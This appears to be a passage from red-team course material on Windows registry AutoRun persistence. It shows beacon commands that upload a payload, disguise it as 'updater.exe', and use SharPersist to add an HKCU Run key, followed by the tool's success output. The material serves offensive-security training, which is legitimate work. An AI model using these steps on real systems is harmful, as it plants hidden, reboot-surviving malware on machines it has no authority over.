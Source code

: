 AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.
```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```

Where:

- `-k` is the registry key to modify.
- `-v` is the name of the registry key to create.

  

As before, you can test this by rebooting the VM.

  It's a common misconception that an HKLM autorun will execute the payload as SYSTEM, but this is not the case.  An HKCU autorun will only trigger when the owner of the hive logs into the machine.  An HKLM autorun will trigger when any user logs into the machine, but it will still run under the context of the user's account.
